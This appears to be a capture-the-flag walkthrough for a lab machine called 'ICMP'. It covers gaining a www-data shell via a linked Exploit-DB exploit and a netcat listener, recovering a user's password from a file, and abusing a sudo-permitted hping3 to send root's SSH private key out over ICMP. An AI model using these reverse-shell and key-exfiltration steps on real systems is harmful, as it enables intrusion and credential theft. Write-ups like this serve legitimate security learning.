





# ICMP 




https://www.exploit-db.com/exploits/48980


By looking at the code we can run as is, no need to specify edit anything in the exploit itself so we can just set up a listener `nc -lvnp <lport>` and run the exploit by specifying the url lhost lport `./expl.py <IP>/mon <lhost> <lport>` and we get a www-data shell, I ussually like to stabilize my shells. `python3 -c 'import pty;pty.spawn("/bin/bash")'`

We can't really expect to do much with www-data , so let's just check straight away if there are any users setup in /home. `ls -al /home` and there is one - fox


we can also list fox's contents:



local is readable and so is reminder, let's cat both:

local contains the 1st flag
and reminder points us in a potential new direction.

```
crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

we can't list devel directory but we can execute anything in it, and as we already have a clue with crypt.php might aswell check if that's within devel directory and it is...

by catting that we see that it encrypts a string witht he key "da". since we already have a plaintext unencrypted string, let's see if it's fox's password by trying to ssh in as fox.

`ssh fox@<IP>`

and we are in. Since we know the password might aswell check sudo -l.

and we can run /usr/sbin/hping3 --icmp * as root.
Initial thought is to run shell with preserved privs, but since we can't run raw hping3 but rather hping3 --icmp, that's a no-go. so let's visit GTFOBins for some insight.



So Looks like we can send some packets. Here you could send it to yourself on your local machine or on the same machine, by SSH'ing into fox again with another session.
Which ever approach you choose you could just cheese the 2nd flag by sending it since it's always named proof.txt on /root or you could do it properly and get root access one way could potentially be sending /etc/shadow and trying to crack the password, second would check and see if root has .ssh and get it's id_rsa. As my cracking speeds are abysmal I'll go with the id_rsa approach first.

-- SSH instance 1
`sudo /usr/sbin/hping3 --icmp 127.0.0.1 --listen signature --safe`

-- SSH instance 2
`sudo /usr/sbin/hping3 --icmp 127.0.0.1 --sign signature --file /root/.ssh/id_rsa -d 6000 -c 1`

After getting the id_rsa , write a file with it's content's name it chmod to 600 or 400 either works and ssh into root.
`ssh root@<IP> -i id_rsa`



and we have the root flag aswell.



